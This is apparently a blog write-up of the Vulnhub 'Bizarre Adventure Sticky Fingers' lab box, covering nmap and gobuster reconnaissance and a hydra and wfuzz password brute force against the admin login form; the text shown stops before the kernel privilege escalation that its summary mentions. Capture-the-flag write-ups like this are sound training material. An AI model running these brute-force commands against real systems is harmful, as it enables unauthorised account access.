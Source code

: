 ```yaml
---
title: Vulnhub - Bizarre Adventure Sticky Fingers
description: My writeup on Bizarre Adventure Sticky Fingers box.
categories:
 - vulnhub
tags: vulnhub hydra ssh base64 kernel
---
```


![](https://i.kym-cdn.com/photos/images/original/001/420/906/1c2.jpg)

You can find the machine there > [Bizarre Adventure Sticky Fingers](https://www.vulnhub.com/entry/bizarre-adventure-sticky-fingers,560/){:target="_blank"}

## Summary

To be honest, i didn't really like this box. The way you get shell is waste of time anyway..! We start by finding an admin page and brute force it using hydra after looooooong time we get the password. Then after some decoding/decrypting we get a password, from the images we get the username and we're in. Privilege escalation to root is a simple kernel exploit. Let's pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:26 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00056s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
5355/tcp open  llmnr
MAC Address: 08:00:27:7C:38:71 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.23 seconds
$ nmap -p 22,53,80,5355 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-24 00:27 EEST
Nmap scan report for stickyfingers.zte.com.cn (192.168.1.17)
Host is up (0.00048s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c6:35:09:72:d4:d9:5c:17:56:06:f9:53:c4:90:2f:8d (RSA)
|   256 98:52:48:9e:cc:64:46:94:43:2a:70:52:d1:79:8c:4c (ECDSA)
|_  256 c0:57:d2:9f:fb:70:c8:c6:66:5e:16:17:5b:08:b9:8f (ED25519)
53/tcp   open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: NIVEL 1
5355/tcp open  llmnr?
```

Port 80 has a static website nothing interesting, let's run a `gobuster` scan.

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/index.html (Status: 200)
/images (Status: 301)
/admin (Status: 301)
/css (Status: 301)
/js (Status: 301)
/vendor (Status: 301)
/fonts (Status: 301)
```

`/admin` has a login page, tried some classic stuff like `admin:admin` `guest:guest` etc but nothing. I checked the `/images` folder and i found a file called `Flag.txt.txt` this file has 2 possible usernames in:

```
$ curl http://192.168.1.17/images/Flag.txt.txt
EASY EASY EASY

Zipperman is cool!

Bucciarati
```

Let's fire up hydra on login page. Here is the stupid part.. we have to wait l000000000000000ng time to get the password because the password is in line `1044216` :

```
$ cat /usr/share/wordlists/rockyou.txt | grep -n "Password@123" 
1044216:Password@123
```

Just grab it and save your time. :smile: I'll make another wordlist with this password in to show you the hydra command.

```
$ hydra -l Zipperman -P wordlist.txt $ip http-post-form "/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed"

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-24 00:40:34
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:1/p:4), ~1 try per task
[DATA] attacking http-post-form://192.168.1.17:80/admin/index.php:username=Zipperman&pass=^PASS^:Login Failed
[80][http-post-form] host: 192.168.1.17   login: Zipperman   password: Password@123
```

You can also use `wfuzz`:

```
$ wfuzz -c -w wordlist.txt -d "username=Zipperman&pass=FUZZ" --hc 200 http://192.168.1.17/admin/index.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.17/admin/index.php
Total requests: 4

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                 
===================================================================

000000004:   302        88 L     176 W    2643 Ch     "Password@123"                   
```
